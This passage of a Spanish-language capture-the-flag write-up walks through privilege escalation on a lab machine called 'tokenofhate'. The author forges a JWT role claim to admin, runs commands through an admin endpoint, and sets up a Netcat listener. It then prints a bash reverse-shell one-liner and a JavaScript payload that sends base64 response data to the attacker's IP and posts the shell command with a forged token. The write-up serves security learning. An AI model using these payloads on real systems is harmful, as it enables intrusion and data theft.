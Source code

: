 En la respuesta, veremos que no tenemos acceso, pues dicho endpoint solo está permitido para el **admin**.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315192659.png>)

Si nos dirigimos a [jwt.io](https://jwt.io/) y pegamos nuestro token, veremos en la figura el campo **role**, por lo que lo modificaremos a **admin**.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315192837.png>)

Veremos que en el respuesta de la petición, nos devuelve el output del comando.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315192947.png>)

Además, veremos como recibimos la traza **ICMP** de la máquina víctima.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315193041.png>)

A continuación, lo que haremos será ponernos en escucha con **Netcat** (`nc -nlvp 443`) y enviarnos una **Reverse Shell** gracias al típico one liner de bash (`bash -c 'bash -i >& /dev/tcp/192.168.26.10/443 0>&1'").

```js
x=new XMLHttpRequest;
x.onload=function(){new Image().src=`http://192.168.26.10/?resText=${btoa(this.responseText)}`};
let data = JSON.stringify({"command": "bash -c 'bash -i >& /dev/tcp/192.168.26.10/443 0>&1'", "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ikpvc2UiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3NDIwNjMxMDEsImV4cCI6MTc0MjA2NjcwMX0._wQ0-N-vcor-8oxK3YElOZ9J8AB1GINxo_qfK0aXE8k"})
x.open("POST","http://localhost:3000/command");
x.setRequestHeader("Content-Type", "application/json");
x.send(data);
```
